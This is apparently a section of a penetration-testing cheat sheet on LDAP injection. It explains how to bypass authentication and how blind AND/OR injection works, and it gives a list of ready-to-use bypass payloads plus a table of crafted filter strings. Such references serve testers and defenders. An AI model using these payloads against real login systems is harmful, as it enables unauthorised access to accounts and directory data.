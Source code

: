 ### Authentication bypass

If a web application uses LDAP in its user authentication process, and is
vulnerable to LDAP injection, the authentication mechanism could be bypassed
by injecting an LDAP query that will always evaluate to true (similarly to
SQL and XPATH injections).

For example, if the authentication LDAP statement is
`(&(username="+user+")(password="+password+")` then using `*)(uid=*))(|(uid=*`
as the user parameter would always evaluate to true and allow for
authentication bypass.

The following payloads could be used to bypass authentication in a LDAP
statement:

```
*)(uid=*))(|(uid=*
<USERNAME>)(uid=*))(|(uid=*
<USERNAME>*)(uid=*))(|(uid=*
*
<USERNAME>*
*)(&
*))%00
)(cn=))\x00
*()|%26'
*()|&'
*(|(uid=*))
*(|(objectclass=*))
*/*
*|
/
//
//*
@*
|
x' or name()='username' or 'x'='y
```

### Blind LDAP injection

If no data can be directly retrieved through a LDAP statement, neither from the
statement response nor from an error message, but the web application
comportment varies depending on whether the statement evaluated to true or
false, a blind LDAP injection could be possible.

###### AND / OR blind LDAP injection

LDAP injection may take place in `AND` or `OR` statement, each needing a
different payload format:

| Statement | Injection | Resulting statement | Description |
|-----------|-----------|---------------------|-------------|
| `(&(username=<INPUT1>)(password=<INPUT2>))` | INPUT1 = `*)(ATTRIBUTE=VALUE))(&(ATTRIBUTE=do_not_matter` | `(&(username=*)(ATTRIBUTE=VALUE))(&(ATTRIBUTE=do_not_matter)(password=<INPUT2>))` | If the ATTRIBUTE has for value VALUE, then the statement is evaluated to True |
| `(\|(username=<INPUT1>)(email=<INPUT2>))` | INPUT1 = `void)(ATTRIBUTE=VALUE))(\|(ATTRIBUTE=void` <br/> INPUT2 = non_existent_entry | `(\|(username=void)(ATTRIBUTE=VALUE))(\|(ATTRIBUTE=void)(email=non_existent_entry))` | If the ATTRIBUTE has for value VALUE, then the statement is evaluated to True |
